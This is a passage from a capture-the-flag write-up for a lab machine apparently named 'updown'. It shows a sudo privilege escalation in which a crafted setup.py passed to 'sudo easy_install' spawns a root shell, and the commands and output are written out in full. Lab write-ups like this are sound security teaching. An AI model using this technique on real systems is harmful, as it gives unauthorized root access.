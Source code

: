 ```bash
```

easy_install is a python utility, this is not a custom script. Generally don't think sudo should be used with these things as I know pip sometimes complains about it. In this case though easy_install is in GTFObins with a sudo privesc. 

```bash
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.3x2tHIdqPG
Writing /tmp/tmp.3x2tHIdqPG/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.3x2tHIdqPG/egg-dist-tmp-yBvnKe
# whoami
root
# cat /root/root.txt
acebb23fd-----------------------
```

As a little debrief easy_install will look for setup.py and unambiguously run it. If run without sudo all this would do is inherit developer's permissions. Another lesson in overly permissive sudo usage.
